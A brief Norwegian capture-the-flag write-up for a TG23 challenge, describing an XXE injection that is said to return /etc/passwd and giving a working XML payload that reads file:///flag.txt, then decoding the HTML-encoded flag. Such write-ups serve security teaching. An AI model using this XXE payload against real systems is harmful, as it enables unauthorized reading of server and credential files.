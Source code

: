 # Writeup [Hjelpeside](./README.md)


## Writeup
### Flag 1
XML External Entity (XXE) injection angrep, men med noen ekstra undersider for litt rabbit holes.
Enn kan teste [klassisk XXE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe) og vil få `/etc/passwd` returnert.

Modifisert litt for å hente ut flag filen:
```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///flag.txt'>]><root>&test;</root>
```
Flagget blir HTML Entity enkode, `TG23{Hakkespettene skj&#248;nner at XML kan v&#230;re farlig}`, men dette fikser Cyberchef lett med `From HTML Entity`, så vi får flagget
```
TG23{Hakkespettene skjønner at XML kan være farlig}
```